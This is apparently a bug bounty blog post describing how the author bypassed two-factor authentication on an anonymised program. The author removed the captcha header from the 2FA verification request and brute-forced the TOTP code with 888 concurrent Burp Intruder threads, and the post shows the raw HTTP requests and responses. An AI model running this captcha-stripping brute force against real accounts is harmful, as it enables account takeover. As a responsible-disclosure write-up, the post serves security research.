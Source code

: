 ```yaml
---
date: 2020-06-20 22:55:45
layout: post
title: 2FA Bypass
description: 2fa bypass in a private program
image: https://i.ibb.co/pftczhd/2fa-bypass.png
optimized_image: https://i.ibb.co/pftczhd/2fa-bypass.png
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## How I bypassed 2fa in a 3 years old private program!

When I was invited to this private program say "private.com" I was bit discouraged as it was 3 years old program with only 3 eligible scope and I thought that many hackers must have hammered it hard and finding a bug here would just be a waste of time.

But any way I started IDK why ...FFF..

![Alt Text](https://i.ibb.co/s1XLQtp/idk.gif)

So after doing some dirsearch I found 2 open redirects in like ~ 3 mins...But got a duplicate when I submitted the report.

Then I jumped to app.private.com to try some auth flaws and with a hope that no one ever looked here even though it's a 3 year old program...just in case ?

![Alt Text](https://media.giphy.com/media/8GclDP2l4qbx6/giphy.gif)

After trying some things I decided to try some rate limit checks on login and 2fa things ...Both login and 2fa where protected from google captcha :/

So I tried to remove the captcha header from the request to see if web app is blocking any client side changes...and login request gave me "Invalid Captcha"...But 2fa didn't !

- Request with no google captcha headers

```
POST /2fa/verify HTTP/1.1
Host: api.private.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Bearer ff72216846ff4f858ab16f31a9b0eb0f765a4XXXXXXXXXXX3
Content-Length: 17
Origin: https://app.private.com
Connection: close
Referer: https://app.private.com

{"code":"123456"}
```
- Response 

```
HTTP/1.1 401 Unauthorized
Date: Thu, 18 Jun 2020 06:08:12 GMT
Content-Type: application/json
Content-Length: 36
Connection: close
Access-Control-Allow-Origin: https://app.private.io
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
Access-Control-Allow-Credentials: true

{"message":"Wrong code! Try again."}
```
No "Invalid Captcha" response now.

![Alt Text](https://media.giphy.com/media/DffShiJ47fPqM/giphy.gif)

Time to spin up the intruder and brute the code !...I used burp pro as I can change the threads. You can use turbo intruder or a simple Python/Go code with concurrent requests to brute it.

But web app uses Google Authenticator so we have only like ~ 59 secs to get the code 

So I used 888 threads with 500 steps ( I could make it more fast and stable with some basic go codes but anyway I only had to give a poc to show that this attack works).

And in grep added the "Invalid Captacha" to be checked in response 

![Alt Text](https://i.ibb.co/48xDJFM/attack-prep3.png)

![Alt Text](https://i.ibb.co/b3hLFPV/attack-prep2.png)

After like ~ 7 or 9 tries I filtered the response and one request managed to hit the correct TOTP (just some correct time game)

- Request

```
POST /2fa/verify HTTP/1.1
Host: api.private.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Bearer ff72216846ff4f858ab16f31a9b0eb0f765a4XXXXXXXXXXX3
Content-Length: 17
Origin: https://app.private.com
Connection: close
Referer: https://app.private.com

{"code":"XXXXXX"}
```

- Response 

```
HTTP/1.1 200 OK
Date: Thu, 18 Jun 2020 06:12:08 GMT
Content-Type: application/json
Content-Length: 38
Connection: close
Access-Control-Allow-Origin: https://app.private.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
Access-Control-Allow-Credentials: true

{"message":"Verification successfull"}
```
Submited the report and got the the bounty $$

- Takeaway
  - Just try even if at first sight it dosen't make sense
  - Don't Give Up
